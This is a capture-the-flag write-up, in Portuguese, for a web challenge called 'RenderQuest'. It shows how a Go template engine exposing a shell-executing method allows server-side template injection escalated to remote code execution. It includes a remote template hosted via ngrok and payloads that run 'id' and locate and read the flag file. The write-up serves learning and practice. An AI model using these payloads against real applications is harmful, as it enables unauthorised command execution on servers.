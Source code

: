# RenderQuest

> Você encontrou uma aplicação web que permite que você insira templates remotamente para serem renderizados. Sua tarefa é se aproveitar das vulnerabilidades desse sistema para obter a _flag_ escondida. Boa sorte!

Como descrito, esse desafio consiste de uma aplicação web que carrega templates `.tpl` de fontes externas e internas. Como o código-fonte é disponibilizado, é possível analisar o comportamento da aplicação e explorar uma vulnerabilidade de [Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection).

## Reconhecimento

Na página inicial, é possível ver alguns dados que são utilizados para carregar os templates e um formulário para informar uma URL para o template.&#x20;

<figure><img src="../../../../.gitbook/assets/ctfhtbchallengesrenderquestindex.png" alt="Página inicial da aplicação &#x22;RenderQuest&#x22;. Apresenta uma série de informações que podem ser consumidas através de um template TPL. Por fim, fornece um formulário com um campo que permite informar a URL por onde um template TPL pode ser acessado."><figcaption></figcaption></figure>

Vale notar também que a URL possui um parâmetro "page", o qual indica a fonte da qual o template será carregado. Analisando o código-fonte da página, é possível encontrar a função responsável por processar e carregar o conteúdo da URL informada, além de outras funções interessantes.

```go
import (
  ...
  "html/template"
  "os/exec"
)
...
 
func (p RequestData) FetchServerInfo(command string) string {
  out, err := exec.Command("sh", "-c", command).Output()
  if err != nil {
    return ""
  }
  return string(out)
}
...
 
// executado caso o recurso informado seja local
func readFile(filepath string, basePath string) (string, error) {
  if !isSubdirectory(basePath, filepath) {
    return "", fmt.Errorf("Invalid filepath")
  }
  data, err := os.ReadFile(filepath)
  ...
  return string(data), nil
}
 
// executado caso o recurso informado seja remoto
func readRemoteFile(url string) (string, error) {
  response, err := http.Get(url)
  content, err := io.ReadAll(response.Body)
  ...
  return string(content), nil
}
 
// responsável por processar o template
func getTpl(w http.ResponseWriter, r *http.Request) {
  var page string = r.URL.Query().Get("page")
  var remote string = r.URL.Query().Get("use_remote")
 
  reqData := &RequestData{}
  reqData.ServerInfo.Hostname = reqData.FetchServerInfo("hostname")
  reqData.ServerInfo.OS = reqData.FetchServerInfo("cat /etc/os-release | grep PRETTY_NAME | cut -d '\"' -f 2")
  reqData.ServerInfo.KernelVersion = reqData.FetchServerInfo("uname -r")
  reqData.ServerInfo.Memory = reqData.FetchServerInfo("free -h | awk '/^Mem/{print $2}'")
  ...
 
  err = tmpl.Execute(w, reqData)
}
...
```

Essas funções são essenciais para identificarmos como esse sistema pode ser explorado. Na ordem em que os processos ocorrem, temos a função `getTpl`, que é responsável por processar o template e enviar os objetos que podem ser acessados pelo template. Para isso, ele chama as funções `readFile` e `readRemoteFile`, de acordo com o valor do parâmetro "use\_remote" passado na URL.

A princípio, pode-se imaginar que seja possível incluir o arquivo da flag através do parâmetro `page` e resolver o desafio. Entretanto, isso não é possível principalmente pois o arquivo da flag acompanha um sufixo imprevisível, além de a função `readFile` impedir a leitura de arquivos que não estejam no diretório `templates` ou `app`.

Porém, se observarmos, após realizar a leitura do arquivo de template, a aplicação passa o objeto `reqData` para a instrução `Execute`. Isso permite que os parâmetros do objeto `reqData` sejam acessados pelo template. Entretanto, pesquisando sobre a biblioteca [html/template](https://pkg.go.dev/html/template), utilizada para renderização dos templates da aplicação, encontrei [este artigo](https://www.onsecurity.io/blog/go-ssti-method-research/) que descreve uma vulnerabilidade de SSTI que pode ser escalada para RCE. Quando um objeto é transmitido para ser processado pelo template, todas as suas propriedades se tornam acessíveis no template. Isso se torna um problema principalmente por conta da função `FetchServerInfo`, que permite a execução de código do sistema. Quando o objeto `reqData` é passado para processar o template informado, torna-se possível acessar e executar a função `FetchServerInfo` passando um comando como parâmetro. Dessa forma, tem-se uma RCE (execução de código remoto).

## Explorando a vulnerabilidade

Podemos explorar essa vulnerabilidade criando um arquivo de template em nossa máquina local e expondo-o através de um servidor HTTP e o ngrok. Podemos iniciar um servidor HTTP em Python através do comando `python -m http.server` e expor nossa máquina através do ngrok com o seguinte comando: `ngrok http 8000`. Dessa forma, podemos criar um arquivo de template com um payload malicioso. Como exemplo, um arquivo template.tpl contendo `{{.}}` vai imprimir as propriedades do objeto acessível pelo template. Alterando esse payload para `{{.FetchServerInfo "id"}}` e enviando novamente para ser carregado pela aplicação, a resposta será o resultado do comando `id` executado pela máquina alvo. Dessa forma, temos um RCE que permite navegar pelo sistema e encontrar a _flag_, e basta apenas manipular o argumento do comando FetchServerInfo\`.

## Prova de Conceito

```go
{{.FetchServerInfo "cat $(find / -name flag*.txt -type f)"}}
```
